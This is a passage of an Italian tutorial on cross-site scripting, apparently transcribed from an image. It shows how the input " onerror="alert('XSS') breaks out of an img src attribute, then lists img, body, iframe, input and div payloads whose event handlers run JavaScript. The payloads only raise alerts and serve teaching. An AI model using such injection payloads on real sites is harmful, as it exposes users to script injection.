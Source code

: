 ### Sfruttare l'onerror
Per sfruttare questa vulnerabilità, possiamo utilizzare l'attributo onerror dell'elemento <img>, che viene eseguito quando l'immagine NON può essere caricata:

	1 Input Maligno:		" onerror="alert('XSS')

	2 Output:		<img src="" onerror="alert('XSS')">

Quando il browser tenta di caricare un'immagine con un src vuoto, l'evento onerror viene attivato ed esegue il codice JavaScript, mostrando un alert con il messaggio "XSS".

### Altri Attributi HTML Utilizzabili 
Diversi attributi HTML possono essere utilizzati per eseguire JavaScript. Ecco alcuni esempi:

	• <img>:		<img src="invalid.jpg" onerror="alert('XSS')">

	• <body>:		<body onload="alert('XSS')">

	• <iframe>:		<iframe src="invalid.html" onerror="alert('XSS')">

	• <input>:		<input onfocus="alert('XSS')" autofocus>

	• <div>:		<div onmouseover="alert('XSS')">Hover over me!</div>
